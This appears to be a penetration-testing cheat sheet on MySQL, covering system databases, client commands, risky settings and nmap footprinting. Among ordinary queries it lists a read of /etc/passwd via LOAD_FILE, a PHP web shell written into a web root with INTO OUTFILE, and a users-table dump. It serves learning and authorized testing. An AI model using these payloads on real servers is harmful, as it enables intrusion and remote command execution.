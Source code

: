 # MySQL

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**MySQL**</mark> is an open-source SQL <mark style="color:purple;">**relational database**</mark> management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. Default MySQL port is <mark style="color:yellow;">**3306**</mark>. The most important databases fot the MySQL are the <mark style="color:green;">**`system schema (sys)`**</mark> and <mark style="color:green;">**`information schema (information_schema)`**</mark>. The **system schema** contaions tables, information, and metadata necessary for management. The **information schema** contains metadata which mainly retrieved from the system **schema database**.

## <mark style="color:yellow;">Databases</mark>

**MySQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                                   | Description                                                           |
| ---------------------------------------------------------- | --------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql`**</mark>              | Contains tables with required info for the server                     |
| <mark style="color:green;">**`information_schema`**</mark> | Database metadata                                                     |
| <mark style="color:green;">**`performance_schema`**</mark> | Low level monitoring MySQL Server execution                           |
| <mark style="color:green;">**`sys`**</mark>                | Objects that helps devs to use data from performance\_schema database |

## <mark style="color:yellow;">MySQL Useful Commands</mark>

<table><thead><tr><th>Command</th><th>Description</th></tr></thead><tbody><tr><td><mark style="color:green;"><strong><code>mysql -u &#x3C;user> -p&#x3C;password> -h &#x3C;IP address></code></strong></mark></td><td>Connect to the MySQL server. There should <strong>not</strong> be a space between the '-p' flag, and the password.</td></tr><tr><td><mark style="color:green;"><strong><code>show databases;</code></strong></mark></td><td>Show all databases</td></tr><tr><td><mark style="color:green;"><strong><code>use &#x3C;database>;</code></strong></mark></td><td>Select one of the existing databases</td></tr><tr><td><mark style="color:green;"><strong><code>show tables;</code></strong></mark></td><td>Show all available tables in the selected database</td></tr><tr><td><mark style="color:green;"><strong><code>show columns from &#x3C;table>;</code></strong></mark></td><td>Show all columns in the selected database</td></tr><tr><td><mark style="color:green;"><strong><code>select * from &#x3C;table>;</code></strong></mark></td><td>Show everything in the desired table</td></tr><tr><td><mark style="color:green;"><strong><code>select * from &#x3C;table> where &#x3C;column> = "&#x3C;string>";</code></strong></mark></td><td>Search for needed <code>string</code> in the desired table</td></tr><tr><td><mark style="color:green;"><strong><code>select LOAD_FILE("/etc/passwd");</code></strong></mark></td><td><em><mark style="color:orange;"><strong>NOT DEFAULT.</strong></mark></em> Reading local files</td></tr><tr><td><pre class="language-bash"><code class="lang-bash">SELECT "&#x3C;?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
</code></pre></td><td><em><mark style="color:orange;"><strong>NOT DEFAULT.</strong></mark></em> Writing local files</td></tr><tr><td><pre class="language-bash"><code class="lang-bash">mysql.exe -u 'mysql_user' -p "password123" -h 127.0.0.1 -D ARASAKA_DB -e "SELECT * FROM users;" > C:\arasaka.htb\static\users_dump.txt
</code></pre></td><td>Extract all users from database</td></tr></tbody></table>

## <mark style="color:yellow;">CMD Interacting</mark>

#### Linux

```bash
mysql -u carni17 -psuperkek123 -h 13.13.13.13
```

#### Windows

```bash
mysql.exe -u carni17 -psuperkek123 -h 13.13.13.13
```

## <mark style="color:yellow;">Dangerous Settings</mark>

#### **Config File Location**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

* <mark style="color:green;">**`user`**</mark> - Sets which user the MySQL service will run as
* <mark style="color:green;">**`password`**</mark> - Sets the password for the MySQL user
* <mark style="color:green;">**`admin_address`**</mark> - The IP address on which to listen for TCP/IP connections on the administrative network interface
* <mark style="color:green;">**`debug`**</mark> - This variable indicates the current debugging settings
* <mark style="color:green;">**`sql_warnings`**</mark> - This variable controls whether single-row INSERT statements produce an information string if warnings occur
* <mark style="color:green;">**`secure_file_priv`**</mark> - This variable is used to limit the effect of data import and export operations. If empty - variable have no effect. If NULL - server disables import/export. If directory - import/export is limited to directory.

#### Show variable

```sql
show variables like "secure_file_priv";
```

## <mark style="color:yellow;">Tips2Hack</mark>

1. Nmap Basic Footprinting

```bash
sudo nmap 13.13.13.13 -sV -sC -p3306 --script mysql*
```

***

